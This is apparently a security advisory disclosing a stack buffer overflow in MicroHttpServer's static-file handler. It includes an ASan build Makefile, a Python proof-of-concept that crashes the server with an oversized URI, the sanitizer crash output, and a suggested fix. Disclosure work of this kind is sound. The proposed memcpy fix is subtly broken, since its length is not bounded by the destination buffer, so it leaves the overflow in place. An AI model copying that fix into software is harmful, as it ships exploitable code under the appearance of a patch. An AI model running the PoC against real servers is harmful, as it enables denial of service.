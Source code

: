 After executing my fuzz tests, I discovered a remote stack buffer overflow in the C version of MicroHttpServer through commit 4398570 in the function uint8_t _ReadStaticFiles(HTTPReqMessage *req, HTTPResMessage *res) at lib/middleware.c, line 67:

```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(uri));
```


Any server or embedded application that utilizes MicroHttpServer is potentially at risk of remote code execution.  I've included reproduction steps in the following sections.


### Makefile Modifications

The following modifications were made to the Makefile to compile the server with address sanitizer and debug symbols.  The purpose of this is to track and verify the location of the stack buffer overflow:

```
PROJ=microhttpserver

CC=gcc
INCLUDES=-Ilib
DEFS=-D_PARSE_SIGNAL_ -D_PARSE_SIGNAL_INT_ -DDEBUG_MSG -DENABLE_STATIC_FILE=1
CFLAGS=-Os -Wall -fsanitize=address -g
SRCS=main.c app.c lib/server.c lib/middleware.c

all:
	$(CC) $(SRCS) $(INCLUDES) $(DEFS) $(CFLAGS) -o $(PROJ)

clean:
	rm -rf *.out *.bin *.exe *.o *.a *.so *.list *.img test build $(PROJ)
```

### Proof of Concept  Python3 Script

Save the following script to a file named poc.py:

```
#!/usr/bin/env python3

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8001))
sock.send(b"GET /"+b"%s"*5000+b" HTTP/1.1\r\nHost:localhost:8001\r\n\r\n")
response = sock.recv(4096)
sock.close()
```

### Starting MicroHttpServer

```
$ ./microhttpserver 
```

### Execute our Python3 Script

```
$ python3 poc.py
```

### Address Sanitizer Output

The following output is produced by address sanitizer, confirming the existence of the stack buffer overflow:

```
Listening
Accept 1 client.  127.0.0.1:35914
        Parse Header
        Parse body
=================================================================
==268450==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7ffc75d79c90 at pc 0x7f141a66dcbf bp 0x7ffc75d79b50 sp 0x7ffc75d79310
WRITE of size 10001 at 0x7ffc75d79c90 thread T0
    #0 0x7f141a66dcbe in __interceptor_memcpy ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:899
    #1 0x5632c9deeb74 in _ReadStaticFiles lib/middleware.c:67
    #2 0x5632c9deef9b in Dispatch lib/middleware.c:138
    #3 0x5632c9dee12b in _HTTPServerRequest lib/server.c:316
    #4 0x5632c9dee12b in _HTTPServerRequest lib/server.c:308
    #5 0x5632c9dee4e8 in HTTPServerRun lib/server.c:350
    #6 0x5632c9dec3c9 in main /home/kali/projects/fuzzing/MicroHttpServer/c-version/main.c:27
    #7 0x7f141a4456c9 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #8 0x7f141a445784 in __libc_start_main_impl ../csu/libc-start.c:360
    #9 0x5632c9dec460 in _start (/home/kali/projects/fuzzing/MicroHttpServer/c-version/microhttpserver+0x2460) (BuildId: 39e1eff8cc6e7225cc4b4972fb5564788133b49d)

Address 0x7ffc75d79c90 is located in stack of thread T0 at offset 288 in frame
    #0 0x5632c9dee8a3 in _ReadStaticFiles lib/middleware.c:36

  This frame has 2 object(s):
    [48, 127) 'header' (line 47)
    [160, 288) 'path' (line 45) <== Memory access at offset 288 overflows this variable
HINT: this may be a false positive if your program uses some custom stack unwind mechanism, swapcontext or vfork
      (longjmp and C++ exceptions *are* supported)
SUMMARY: AddressSanitizer: stack-buffer-overflow ../../../../src/libsanitizer/sanitizer_common/sanitizer_common_interceptors.inc:899 in __interceptor_memcpy
Shadow bytes around the buggy address:
  0x7ffc75d79a00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79a80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79b00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f1 f1
  0x7ffc75d79b80: f1 f1 f1 f1 00 00 00 00 00 00 00 00 00 07 f2 f2
  0x7ffc75d79c00: f2 f2 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x7ffc75d79c80: 00 00[f3]f3 f3 f3 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79d00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x7ffc75d79d80: 00 00 f1 f1 f1 f1 00 00 f2 f2 00 00 00 00 00 00
  0x7ffc75d79e00: 00 00 00 00 00 00 00 00 00 00 f2 f2 f2 f2 00 00
  0x7ffc75d79e80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 f3 f3
  0x7ffc75d79f00: f3 f3 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==268450==ABORTING

```

### Impact

* [Remote Code Execution](https://www.cloudflare.com/learning/security/what-is-remote-code-execution/)
* [Denial of Service](https://attack.mitre.org/techniques/T0814/)

### Mitigation

The issue here is that memcpy is copying the value of 'uri' to  'path+srlen(STATIC_FILE_FOLDER)', but the size of the uri is larger than the destination buffer.

Buffer overflow vulnerability:
```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(uri));
```
This can be modified to prevent a buffer overflow:
```
memcpy(path + strlen(STATIC_FILE_FOLDER), uri, strlen(path) + strlen(STATIC_FILE_FOLDER));
```

### References

* [Buffer Overflow (CWE-121)](https://cwe.mitre.org/data/definitions/121.html)
* [OWASP Buffer Overflow Vulnerabilities](https://owasp.org/www-community/vulnerabilities/Buffer_Overflow)
* [Address Sanitizer](https://github.com/google/sanitizers/wiki/AddressSanitizer)

